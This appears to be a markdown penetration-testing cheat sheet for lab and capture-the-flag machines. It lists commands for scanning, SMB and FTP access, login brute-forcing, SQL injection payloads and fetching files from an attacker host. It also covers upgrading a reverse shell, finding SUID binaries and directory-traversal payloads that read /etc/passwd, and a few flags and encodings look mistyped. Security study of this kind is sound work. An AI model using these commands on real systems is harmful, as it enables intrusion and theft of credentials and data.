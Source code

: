 
- [Port Scanning](#psc)
- [21 - FTP Port](#ftp)
- [139/445 - Samba/SMB](#smb)
- [Directory Enumeration](#dir)
- [Login BruteForce](#log)
- [Sql Injection](#si)
- [File Transfer](#ft)
- [Upgrade Shell](#us)
- [File searching](#fts)
- [Directory Traversal](#dt)

## Port Scanning <a name='psc'></a>

### Nmap
- `-sV` shows the version of the service running on each port.
- `-sC` uses additional scripts to gather more information.
- `-sS` stealth scan.
- `-p-` scans all ports. 
-  `-Pn-` Skip recognition phase.
- `-p <port>` scans only the specified port number. 
-  `--open` only displays open ports.
- `--min-rate` Specifies the minimum number of packets Nmap should send per second; increasing this number speeds up the scan. 
```bash
nmap  -sS -sC -sV -p 21 10.129.42.253
```


## FTP Port <a name='ftp'></a>

### FTP

```bash
# anonymous login
ftp <machine-ip>
# username anonymous
# password anonymous
```

## Samba/SMB Port <a name='smb'></a>

### SmbClient 
It is a network protocol that allows users to communicate with remote computers and servers to use their resources or share, open, and edit files.

- `-U` access as user.
- `-N` No password.
- `-L` This option allows you to look at what services are available on a server.
```bash
smbclient -U bob \\\\10.129.42.253\\users
    
smbclient -N -L \\\\10.129.117.14\\
```

## Directory Enumeration <a name='dir'></a>

### Gobuster
It is a command-line tool used for performing brute-force scans or directory and subdomain enumeration on a website.
- To find subdirectories:
````bash
#wordlist example:/usr/share/wordlists/dirb/big.txt
#machine example: 10.10.192.23 or http://10.10.192.23:80
gobuster dir -u <machine-ip> -w <wordlist> -o gobuster.out
````

- To find subdomains:
```bash
#wordlist example: /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt
#machine ip example: 10.10.192.25
gobuster vhost -w <wordlist> -u <machine-ip> -o gobuster.out
````

## Login Bruteforce <a name="log"></a>

##### ffuf

```bash
# wordlist = rockyou.txt
ffuf -u http://<machine-ip>/login-page.php -X POST -d '{"user":"FUZZ", "pass":"FUZZ"}' -w wordlist
```

## SQLInjection <a name="si"></a>
For more information consult [[SQL]].

- [SqlMap](https://sqlmap.org/)

```bash
# capture the login request with burp and save it as login.req
sqlmap -r login.req --level=5 --risk=3 --batch

# manual expoitation
> Capture the request with burp
> The entered paramaters will be url encoded, decode it with <ctrl>+<shift>+<u>
> Enter the payload " ' or 1 = 1 -- - " (simple sql injection payload)
> After changing the payload, url encode it with <ctrl>+<u>
```

## File Transfer <a name="ft"></a>

```bash 
# on the attacker machine
python3 -m http.server 8081

# on the victim machine
wget http://<attacker-ip>:<port>/<file>
curl http://<attacker-ip>:<port>/<file> -o <output-file>
```


## Upgrade Shell <a name='us'></a>

When we do a reverse shell, sometimes, we will need to upgrade our shell.

- Specifically, what it does is establish a new interactive terminal with advanced features, such as full control of function keys, command history, and the ability to use commands like Ctrl+C and Ctrl+Z. This can be useful in situations where greater interactivity is needed in a limited shell session.

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
# we need to *restart* to apply the changes, so we do:  
CTRL+Z  
stty raw -echo  
fg  
export TERM=xterm
```

## File searching <a name='fs'></a>

### find

Parameters:
- `-name <pattern>`: Matches files or directories with a specific name pattern.
- `-type <type>`: Matches files or directories of a specific type (e.g., `f` for regular files, `d` for directories, `l` for symbolic links).
- `-size <size>`: Matches files based on their size. For example, `+10M` matches files larger than 10 megabytes.
- `-mtime <time>`: Matches files based on their modification time. For example, `-mtime -7` matches files modified within the last 7 days.
```bash
# Use 2>/dev/null if you don't want to see errors output
find [path] [expression] 2>/dev/null
```

Also,  *find* can be useful to find files with the SUID bit, which allows us to run the file with a higher privilege level than the current user.
```bash
# Use 2>/dev/null if you don't want to see errors output
find / -perm -u=s -type f 2>/dev/null
```

## Directory Traversal <a name='dt'></a>

The attack typically takes advantage of insufficient input validation or sanitization mechanisms. By manipulating the input, an attacker can traverse directories and access sensitive files that should not be directly accessible. This could include system files, configuration files, or even user data.

For example, if a web application allows users to download files by specifying a file name in the URL, an attacker could provide a malicious input such as "../../../etc/passwd" to traverse up the directory tree and access the password file.

That can be useful if, for example, the web has a php file with a variable called `filename`.
In this case, we could make a request attempting to access other files, such as /etc/passwd.

```bash
http://example.com/?filename=../../../../../../etc/passwd
```
In some cases the php code can be blocking this attack switching "../" with "". In this case we could try to do:
```bash
http://example.com/?....//....//....//....//....//etc/passwd
```
Sometimes, if the previous method doesn't work, it can be useful to URL-encode the request or URL-encode it twice.
```bash
..%25df..%25df..%25df..%25df..%25df..%25df..%25df..%25dfetc/passwd
```